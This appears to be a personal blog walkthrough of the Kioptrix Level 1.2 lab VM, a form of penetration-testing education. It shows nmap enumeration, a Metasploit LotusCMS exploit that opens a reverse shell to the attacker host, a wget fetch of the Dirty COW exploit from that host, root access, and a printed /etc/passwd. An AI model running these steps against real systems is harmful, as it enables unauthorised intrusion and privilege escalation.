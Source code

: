 ```yaml
---
layout: post
title: Vulnhub Kioptrix Level 1.2 (#3)
---
```


This writeup is for the Kioptrix: Level 1.2 (#3) found [here](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, with the Kali box running in host-only mode and the
box running in bridged mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_2/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap -sV -T4 -p- -vv -sS 192.168.56.107` to find open ports with services running on them.

```
root@kali:~# nmap -sV -T4 -p- -vv -sS 192.168.56.107
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-27 20:14 EDT
NSE: Loaded 43 scripts for scanning.
Initiating ARP Ping Scan at 20:14
Scanning 192.168.56.107 [1 port]
Completed ARP Ping Scan at 20:14, 0.04s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating SYN Stealth Scan at 20:14
Scanning 192.168.56.107 [65535 ports]
Discovered open port 22/tcp on 192.168.56.107
Discovered open port 80/tcp on 192.168.56.107
Completed SYN Stealth Scan at 20:14, 7.14s elapsed (65535 total ports)
Initiating Service scan at 20:14
Scanning 2 services on 192.168.56.107
Completed Service scan at 20:14, 6.03s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.56.107.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Nmap scan report for 192.168.56.107
Host is up, received arp-response (0.0039s latency).
Scanned at 2019-10-27 20:14:38 EDT for 14s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 00:0C:29:DD:23:37 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.02 seconds
           Raw packets sent: 65554 (2.884MB) | Rcvd: 65536 (2.621MB)
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser.

## Vulnerability Discovery

On the main page, there was a link that said login. I clicked on the link and was presented with a logon page.

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_2/logon.png "Logon page")

I saw that it said it was powered by LotusCMS and discovered that there is a [major vulnerability](https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec) with it that allows a reverse shell to be created.

## Exploitation

I opened metasploit using `msfconsole` and ran the exploit.

```
msf5 > use exploit/multi/http/lcms_php_exec
msf5 exploit(multi/http/lcms_php_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf5 exploit(multi/http/lcms_php_exec) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf5 exploit(multi/http/lcms_php_exec) > set RHOST 192.168.56.107
RHOST => 192.168.56.107
msf5 exploit(multi/http/lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/lcms_php_exec) > set URI /
URI => /
msf5 exploit(multi/http/lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (38247 bytes) to 192.168.56.107
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.107:55755) at 2019-10-27 20:31:24 -0400

meterpreter > shell
Process 4248 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/sh")'
$ 
```

This presented me with a TTY shell.

## Privilege Escalation

I looked around a bit to try and find any sort of exploitable application, but I did not see anything obvious, so I 
looked at the kernel version to find an exploit.

```
$ uname -a
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

There wern't any obvoious exploits other than the [Dirty Cow](https://dirtycow.ninja/) exploit. From the website, "A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system."
This allows for a privilege escalation vulnerability on many kernel versions. I specifically used [this](https://www.exploit-db.com/exploits/40839) implementation of the exploit.

I transferred the file to the box using the python SimpleHTTPServer.

```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```
$ cd /tmp
$ wget 192.168.56.101/40839.c
```

I then compiled it according to the instructions and ran it.

```
$ gcc -pthread 40839.c -o dirty -lcrypt
$ chmod +x dirty
$ ./dirty password
$ su firefart
Password: password
firefart@Kioptrix3:/tmp#
```

I thought I wasn't done as I wasn't the root user, but after looking at `/etc/passwd`, I realized that there is somehow no root
user on the box and that I was done.

```
firefart@Kioptrix3:/tmp# cat /etc/passwd
cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
```

![Root]({{ site.baseurl }}/images/KioptrixLevel1_2/root.png "Root")

